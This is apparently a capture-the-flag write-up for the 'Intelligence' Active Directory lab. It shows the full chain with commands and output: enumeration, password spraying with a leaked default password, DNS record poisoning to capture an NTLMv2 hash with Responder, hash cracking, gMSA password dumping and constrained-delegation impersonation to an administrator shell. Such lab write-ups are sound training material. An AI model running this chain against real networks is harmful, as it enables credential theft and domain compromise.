



Box: Windows
Level: Medium

### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap Enum`](#`Initial%20Nmap%20Enum`)
	1. [`Detailed LDAP Scan using Nmap`](#`Detailed%20LDAP%20Scan%20using%20Nmap`)
3. [RPC Enumeration](#RPC%20Enumeration)
	1. [`RPC Null Acces using rpcclient`](#`RPC%20Null%20Acces%20using%20rpcclient`)
	2. [`Enumerate all trusted domains in an AD forest`](#`Enumerate%20all%20trusted%20domains%20in%20an%20AD%20forest`)
	3. [`Enumerating Domain SID`](#`Enumerating%20Domain%20SID`)
	4. [`List Available Command on Pipe`](#`List%20Available%20Command%20on%20Pipe`)
4. [LDAP & WINDAPSEARCH Enum](#LDAP%20&%20WINDAPSEARCH%20Enum)
5. [`Kerberos Enumeration`](#`Kerberos%20Enumeration`)
	1. [`Kerberos User Enum`](#`Kerberos%20User%20Enum`)
6. [Web Enum](#Web%20Enum)
	1. [`Preparing WordList for Brutforcing /documents/ Directory`](#`Preparing%20WordList%20for%20Brutforcing%20/documents/%20Directory`)
	2. [`Extracting UserNames from Obtained PDFs`](#`Extracting%20UserNames%20from%20Obtained%20PDFs`)
	3. [`Password Spraying`](#`Password%20Spraying`)
	4. [`User Flag using SMB`](#`User%20Flag%20using%20SMB`)
	5. [`Enumerating SMB Shares through valid Creds`](#`Enumerating%20SMB%20Shares%20through%20valid%20Creds`)
	6. [`Adding DNS Type A Record which points to our host`](#`Adding%20DNS%20Type%20A%20Record%20which%20points%20to%20our%20host`)
7. [`Privilege Escalation with out winPEAS or WinRM`](#`Privilege%20Escalation%20with%20out%20winPEAS%20or%20WinRM`)
	1. [`Bloodhound-python to collect Priv Esc Path`](#`Bloodhound-python%20to%20collect%20Priv%20Esc%20Path`)
	2. [`Group Managed Service Account Abuse`](#`Group%20Managed%20Service%20Account%20Abuse`)
	3. [`Abusing Group Managed Service Account (GMSA)`](#`Abusing%20Group%20Managed%20Service%20Account%20(GMSA)`)
	4. [`Abuse AllowToDelete Kerberos Principal`](#`Abuse%20AllowToDelete%20Kerberos%20Principal`)

### `Box Info`
```
Intelligence is a medium difficulty Windows machine that showcases a number of common attacks in an Active Directory environment. After retrieving internal PDF documents stored on the web server (by brute-forcing a common naming scheme) and inspecting their contents and metadata, which reveal a default password and a list of potential AD users, password spraying leads to the discovery of a valid user account, granting initial foothold on the system. A scheduled PowerShell script that sends authenticated requests to web servers based on their hostname is discovered; by adding a custom DNS record, it is possible to force a request that can be intercepted to capture the hash of a second user, which is easily crackable. This user is allowed to read the password of a group managed service account, which in turn has constrained delegation access to the domain controller, resulting in a shell with administrative privileges.
```

### `Initial Nmap Enum`
```
# nmap -p- -Pn intelligence.htb                                 
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
9389/tcp  open  adws
49667/tcp open  unknown
49691/tcp open  unknown
49692/tcp open  unknown
49708/tcp open  unknown
49722/tcp open  unknown
```

```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn intelligence.htb
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Intelligence
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-12 09:38:48Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2024-09-12T09:40:23+00:00; +7h00m02s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
|_ssl-date: 2024-09-12T09:40:23+00:00; +7h00m02s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-12T09:40:23+00:00; +7h00m02s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-12T09:40:23+00:00; +7h00m02s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49722/tcp open  msrpc         Microsoft Windows RPC
49741/tcp open  msrpc         Microsoft Windows RPC
```

###### `Detailed LDAP Scan using Nmap`
```
# nmap -p389,636,3268,3269 --min-rate=1000 --script "ldap-* and not brute" -sC -sV 10.10.10.248
The result was too large to post here so posting some important things.
PORT     STATE SERVICE  VERSION
389/tcp  open  ldap     Microsoft Windows Active Directory LDAP (Domain: intelligence.htb, Site: Default-First-Site-Name)
|       rootDomainNamingContext: DC=intelligence,DC=htb
<<Snipped>>
```


### RPC Enumeration

###### `RPC Null Acces using rpcclient`
```
# rpcclient -U '' -N  10.10.10.248               
rpcclient $> help

Some of the important commands
# You can use rpc to enumerate domain objects
rpcclient -U <user> <IP-DC>

rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> querygroupmem 0x200
rpcclient $> srvinfo
rpcclient $> querygroup 0x42
rpcclient $> queryuser 0x42
rpcclient $> getdompwinfo
rpcclient $> getusrdompwinfo 0x42
```
It is always good practice to check the null access when the `Port 135` is open. Than use the help command to get the command list and try out each of them to see what we can pull out from the target.  For instance, on this target I was able to pull out `Get Trusted DC Name` using the following Command
```
rpcclient $> dsr_getdcname intelligence.htb
DsGetDcName gave:     info: struct netr_DsRGetDCNameInfo
        dc_unc                   : *
            dc_unc                   : '\\dc.intelligence.htb'
        dc_address               : *
            dc_address               : '\\dead:beef::118e:a505:3f6:5c64'
        dc_address_type          : DS_ADDRESS_TYPE_INET (1)
        domain_guid              : 85b0d28f-2397-4d58-b509-811d3005299a
        domain_name              : *
            domain_name              : 'intelligence.htb'
        forest_name              : *
            forest_name              : 'intelligence.htb'
        dc_flags                 : 0xe003f3fd (3758355453)
               1: NBT_SERVER_PDC           
               1: NBT_SERVER_GC            
               1: NBT_SERVER_LDAP          
               1: NBT_SERVER_DS            << SNIPPED >>
        dc_site_name             : *
            dc_site_name             : 'Default-First-Site-Name'
        client_site_name         : *
            client_site_name         : 'Default-First-Site-Name'
```

###### `Enumerate all trusted domains in an AD forest`
```
# rpcclient -U '' -N  10.10.10.248    
dsenumdomtrusts         Enumerate all trusted domains in an AD forest
rpcclient $> dsenumdomtrusts
1 domains returned
intelligence.htb (intelligence)
```

###### `Enumerating Domain SID`
```
rpcclient $> lsaquery
Domain Name: intelligence
Domain Sid: S-1-5-21-4210132550-3389855604-3437519686
```

###### `List Available Command on Pipe`
```
# impacket-rpcdump 10.10.10.248 | grep "\pipe"
          ncacn_np:\\DC[\pipe\lsass]
          ncacn_np:\\DC[\pipe\eventlog]
          ncacn_np:\\DC[\pipe\096debc028047567]
          ncacn_np:\\DC[\pipe\lsass]
          ncacn_np:\\DC[\pipe\096debc028047567]
          ncacn_np:\\DC[\pipe\lsass]
          ncacn_np:\\DC[\pipe\096debc028047567]
          ncacn_np:\\DC[\pipe\lsass]
          ncacn_np:\\DC[\pipe\efsrpc]
          ncacn_np:\\DC[\pipe\efsrpc]
          ncacn_np:\\DC[\pipe\096debc028047567]
          ncacn_np:\\DC[\pipe\lsass]
          ncacn_np:\\DC[\pipe\096debc028047567]
          ncacn_np:\\DC[\pipe\lsass]
          ncacn_np:\\DC[\pipe\096debc028047567]
          ncacn_np:\\DC[\pipe\lsass]
          ncacn_np:\\DC[\pipe\096debc028047567]
          ncacn_np:\\DC[\pipe\lsass]
          ncacn_np:\\DC[\pipe\096debc028047567]
          ncacn_np:\\DC[\pipe\lsass]
          ncacn_np:\\DC[\pipe\096debc028047567]
          ncacn_np:\\DC[\pipe\lsass]
          ncacn_np:\\DC[\pipe\cert]

Following to that run the following command on rpclient NULL Session
rpcclient $> list \pipe\lsass

rpcclient $> list \pipe\eventlog
```

For most of the pipe, I was getting NO results. Which means no commands were allowed.

### LDAP & WINDAPSEARCH Enum
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Tools/windapsearch]
└─# python windapsearch.py -d dc.intelligence.htb --dc-ip 10.10.10.248
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.10.248
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=intelligence,DC=htb
[+] Attempting bind
[+]     ...success! Binded as: 
[+]      None

[*] Bye!
```
Your kali doesn't have windapsearch installed. Run it from the Tools Directory. You should do this again once you get a valid credentials. Same with `smbclient`.

```
Pro Tip: https://x.com/NinjaParanoid/status/1407137264283504640
#Protip: I've seen a lot of people being dependent on PowerView for enumerating AD objects. Not sure why people use it when you have built-in '[adsisearcher]' which is present in every version of windows (even win7). Best part? Works flawlessly in PowerShell 2.0 too.
```


### `Kerberos Enumeration`

###### `Kerberos User Enum`
```
# nmap -p88,464 --script=krb5-enum-users --script-args=krb5-enum-users.realm='intelligence.htb',userdb=/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -sC -sV -T4 10.10.10.248
PORT    STATE SERVICE      VERSION
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-09-12 12:34:30Z)
| krb5-enum-users: 
| Discovered Kerberos principals
|_    administrator@intelligence.htb
464/tcp open  kpasswd5?

# nmap -p88,464 --script=krb5-enum-users --script-args=krb5-enum-users.realm='intelligence.htb',userdb=userpass -sC -sV -T4 10.10.10.248
PORT    STATE SERVICE      VERSION
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-09-12 12:35:02Z)
| krb5-enum-users: 
| Discovered Kerberos principals
|_    William.Lee@intelligence.htb
```

We prepare `userpass` file when extracting the PDF metadata. Trying to enumerate Kerberos User I found that `William.Lee` is a valid Kerberos user. nice. 
### Web Enum

For the web enum, I will now explore alternate options `feroxbuster`. The reason I'm using FeroxBuster is because it performs the in-depth search concurrently.
```
# feroxbuster -u http://intelligence.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -C 404
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://intelligence.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.4
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l       44w     2532c http://intelligence.htb/documents/jquery.easing.min.js
200      GET        8l       29w    28898c http://intelligence.htb/documents/favicon.ico
200      GET       56l      165w     1850c http://intelligence.htb/documents/scripts.js
200      GET      208l      768w    47856c http://intelligence.htb/documents/2020-01-01-upload.pdf
200      GET      209l      800w    48542c http://intelligence.htb/documents/2020-12-15-upload.pdf
200      GET      106l      659w    26989c http://intelligence.htb/documents/demo-image-01.jpg
200      GET        7l     1031w    84152c http://intelligence.htb/documents/bootstrap.bundle.min.js
301      GET        2l       10w      157c http://intelligence.htb/documents => http://intelligence.htb/documents/
200      GET        2l     1297w    89476c http://intelligence.htb/documents/jquery.min.js
200      GET    10345l    19793w   190711c http://intelligence.htb/documents/styles.css
403      GET       29l       92w     1233c http://intelligence.htb/documents/
200      GET      492l     2733w   186437c http://intelligence.htb/documents/demo-image-02.jpg
200      GET        5l   108280w  1194960c http://intelligence.htb/documents/all.js
200      GET      129l      430w     7432c http://intelligence.htb/
301      GET        2l       10w      157c http://intelligence.htb/Documents => http://intelligence.htb/Documents/

<<<Still Going As Per the Screenshot below..Look How it enumerate /Documets as well>>>
```



I found the `contact@intelligence.htb` in the website. Potential user.  There was 2 PDF file on the website. Downloading it and extracting metadata using `exiftool`.

```
# exiftool 2020-01-01-upload.pdf 2020-12-15-upload.pdf 
======== 2020-01-01-upload.pdf
ExifTool Version Number         : 12.76
File Name                       : 2020-01-01-upload.pdf
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2021:04:01 13:00:00-04:00
File Access Date/Time           : 2024:09:12 00:23:13-04:00
File Inode Change Date/Time     : 2024:09:12 00:23:13-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : William.Lee
======== 2020-12-15-upload.pdf
ExifTool Version Number         : 12.76
File Name                       : 2020-12-15-upload.pdf
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2021:04:01 13:00:00-04:00
File Access Date/Time           : 2024:09:12 00:23:26-04:00
File Inode Change Date/Time     : 2024:09:12 00:23:26-04:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.5
Linearized                      : No
Page Count                      : 1
Creator                         : Jose.Williams
    2 image files read
```

Two more potential user `William.Lee` and `Josh.Williams` Looking at both the PDFs, It's some kind of random poem in it. I still need to dig deeper in these two PDFs. 

Looking at the format of two PDF files, the names are `2020-01-01-upload.pdf` and `2020-12-15-upload.pdf`. We can prepare a list of the file name and bruteforce the endpoint `http://intelligence.htb/documents/` with the couple of other file names. 

###### `Preparing WordList for Brutforcing /documents/ Directory`

`Python Script to Print the list`
```
from datetime import date, timedelta
start_dt = date(2020,1,1)
end_dt = date(2022,12,31)
# difference between current and previous date
delta = timedelta(days=1)
# store the dates between two dates in a list
dates = []
while start_dt <= end_dt:
    # add current date to list by converting  it to iso format
    dates.append(start_dt.isoformat())
    # increment start date by timedelta
    start_dt += delta
#print('Dates between', start_dt, 'and', end_dt)
string = '-upload.pdf'
newdates = [i + string for i in dates]
[print(newdates, sep="\n")]
```

Grab the list and run the following `FeroxBuster` command.
```
# feroxbuster -u http://intelligence.htb/documents/ -w date_format -x pdf -s 200 -o logs_1         
200      GET      198l      764w    47929c http://intelligence.htb/documents/2020-01-02-upload.pdf
200      GET      135l      429w    19994c http://intelligence.htb/documents/2020-01-23-upload.pdf
200      GET      126l      413w    20001c http://intelligence.htb/documents/2020-01-20-upload.pdf
200      GET      131l      410w    19420c http://intelligence.htb/documents/2020-02-17-upload.pdf
........The List is long...................
```

Modify the `logs_1` file and make sure only PDF URLs are present in it. Using wget grab all the PDF files that was found 
```
wget -i logs_1
```

One of the PDF contains the default username and password.'
`2020-06-04-upload.pdf`


###### `Extracting UserNames from Obtained PDFs`
```
# exiftool *.pdf | grep Creator
Creator                         : William.Lee
Creator                         : Scott.Scott
Creator                         : Jason.Wright
Creator                         : Veronica.Patel
.....................[Snipped]..................
```

###### `Password Spraying`
First I ran the following netexec command which user username & password as the Creator Name but didn't success.
```
# netexec smb 10.10.10.248 -u userpass -p userpass --continue-on-success
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:William.Lee STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Josh.Williams:William.Lee STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:William.Lee STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Scott.Scott:William.Lee STATUS_LOGON_FAILURE 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jason.Wright:William.Lee STATUS_LOGON_FAILURE 
........................................[Snipped].................................................
```

Than the following command where the default password was used on all the users. 
```
# netexec smb 10.10.10.248 -u userpass -p defaultpass --continue-on-success
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
........................................[Snipped].................................................
```

Smb login was successful for user `Tiffany.Molina`. Great.

###### `User Flag using SMB`
```
# smbclient -U 'Tiffany.Molina%NewIntelligenceCorpUser9876' //intelligence.htb/Users
smb: \> dir
smb: \> cd Tiffany.Molina
smb: \> cd Desktop
smb: \> get user.txt
getting file \Tiffany.Molina\Desktop\user.txt of size 34 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> exit
```

###### `Enumerating SMB Shares through valid Creds`

```
# smbclient -U 'Tiffany.Molina%NewIntelligenceCorpUser9876' -L //intelligence.htb/

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        IT              Disk      
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        Users           Disk      
```

Checking `IT` Share reveals the following results.

```
# smbclient -U 'Tiffany.Molina%NewIntelligenceCorpUser9876' //intelligence.htb/IT 
smb: \> dir
  downdetector.ps1                    A     1046  Sun Apr 18 20:50:55 2021
smb: \> get downdetector.ps1
```

```
# cat downdetector.ps1 
��# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

Looking at the scripts, It looks like There's an Active Directory module installed. The `For Each` look is executing `Get-ChildItem` command on DC where the `Object Name` is like `web*`. Following to that it invoke a Web Request to each record found using the `Get-ChildItem` command using `-UseDefault-Credentials`.

We will setup a responder to capture the NTLM for the user who is running this script every 5 minutes. We will need to add the record and point `Intelligence.htb` to our responder `tun0` ip. 

###### `Adding DNS Type A Record which points to our host`

```
# python dnstool.py 10.10.10.248 -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -a add -r web -d 10.10.14.8 -t A                       
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

```
# responder -I tun0
[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:4af281b465fab8b4:C2E2FBAEF53067B5C6C6E2AEC93583C1:010100000000000085542702340BDB01E1CBAB005D8040F10000000002000800510032004600460001001E00570049004E002D005300540058003300510056003200360055004A004C000400140051003200460046002E004C004F00430041004C0003003400570049004E002D005300540058003300510056003200360055004A004C002E0051003200460046002E004C004F00430041004C000500140051003200460046002E004C004F00430041004C000800300030000000000000000000000000200000F4E6F69FA830DEEA4EAD464377E7EFE43F6D6A28FA05652D8F1C2706ADD9989C0A001000000000000000000000000000000000000900320048005400540050002F007700650062002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000                                                                                                                    
[*] Skipping previously captured hash for intelligence\Ted.Graves
```

```
# hashcat -m 5600 -a 0 TedHash.txt /usr/share/wordlists/rockyou.txt
f6d6a28fa05652d8f1c2706add9989c0a001000000000000000000000000000000000000900320048005400540050002f007700650062002e0069006e00740065006c006c006900670065006e00630065002e006800740062000000000000000000:Mr.Teddy
                                                          
Session..........: hashcat
Status...........: Cracked
```

### `Privilege Escalation with out winPEAS or WinRM`
###### `Bloodhound-python to collect Priv Esc Path`

So far we do not have `Winrm` shell so we are not yet able to use something like `WinPEAS`. But We can think of using `bloodhound-python` from kali to collect the Privilege escalation path.

```
# bloodhound-python -c ALL -d intelligence.htb -u 'Ted.Graves' -p 'Mr.Teddy' -dc dc.intelligence.htb -ns 10.10.10.248
INFO: Found AD domain: intelligence.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to GC LDAP server: dc.intelligence.htb
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 43 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.intelligence.htb
INFO: Done in 00M 10S
```

Importing all the JSON file into Bloodhound and finding the Priv Esc Path.


Couple of Important things to understand here.
- We have owned `Ted.Graves` User account. This user is a MemberOf `ITSUPPORT` group.
- I would strongly recommend to go over **[This Article](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)** and **[Another Article](https://medium.com/@offsecdeer/attacking-group-managed-service-accounts-gmsa-5e9c54c56e49)** to understand GMSA (Group Managed Service Account) Password.
- The `SVC_INT$` is a Group Managed Service Account. 
- The `ITSUPPORT` group can retrieve the GMSA password for `SVC_int$` User Account. 

###### `Group Managed Service Account Abuse`
- Group Managed Service Account makes service account safer.
- These are the user accounts not used by humans but by running services. The services which often require elevated or specific privileges.
- The GMSA passwords are rarely change and often excluded from the password policy.
- Useful for running multiple services on a different hosts with a same domain account.
- Passwords are generated from the set of variables contained in AD object called Key Distribution Services (KDC) root key. These variable are stored as attribute in the object called `msKds-`. 
- Creation of Managed Service Account will add an object of class `msDS-GroupManagedServiceAccount` to the domain.

###### `Abusing Group Managed Service Account (GMSA)`
There are several ways to abuse the ability to read the GMSA password. The most straight forward abuse is possible when the GMSA is currently logged on to a computer, which is the intended behavior for a GMSA. If the GMSA is logged on to the computer account which is granted the ability to retrieve the GMSA's password, simply steal the token from the process running as the GMSA, or inject into that process. If the GMSA is not logged onto the computer, you may create a scheduled task or service set to run as the GMSA. The computer account will start the sheduled task or service as the GMSA, and then you may abuse the GMSA logon in the same fashion you would a standard user running processes on the machine (see the "HasSession" help modal for more details).

Finally, it is possible to remotely retrieve the password for the GMSA and convert that password to its equivalent NT hash using `gMSADumper.py` can be used for that purpose.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Intelligence.htb/gMSADumper]
└─# python gMSADumper.py -d intelligence.htb -u Ted.Graves -p 'Mr.Teddy' 
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::80d4ea8c2d5ccfd1ebac5bd732ece5e4
svc_int$:aes256-cts-hmac-sha1-96:aa7dad03df7672cf9c6fb9abafd90b0aa47a00dcf7e61ab68e7b2f62c21de85a
svc_int$:aes128-cts-hmac-sha1-96:c28e946a25e1dcb0d6552399baf0cbbe
```

We tried to crack the above MD5 for the user `svc_int$` but it was not cracking. We are going to abuse `AllowToDelete` Principal.

###### `Abuse AllowToDelete Kerberos Principal`
```
# impacket-getST -spn www/dc.intelligence.htb -impersonate administrator -altservice cifs -hashes :80d4ea8c2d5ccfd1ebac5bd732ece5e4 intelligence.htb/svc_int$
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from www/dc.intelligence.htb@INTELLIGENCE.HTB to cifs/dc.intelligence.htb@INTELLIGENCE.HTB
[*] Saving ticket in administrator@cifs_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

We got the ticket for Administrator.  In the above command, I tried `HTTP`, `CIFS`, `SMB`, `WinRM` and `LDAP` but I learned that `WWW` should be use when trying with `HTTP`. Other protocol were not able to fetch the ticket for admin user.

```
# KRB5CCNAME=administrator@cifs_dc.intelligence.htb@INTELLIGENCE.HTB.ccache wmiexec.py  -k -no-pass administrator@dc.intelligence.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
intelligence\administrator
```

Get your Root Flag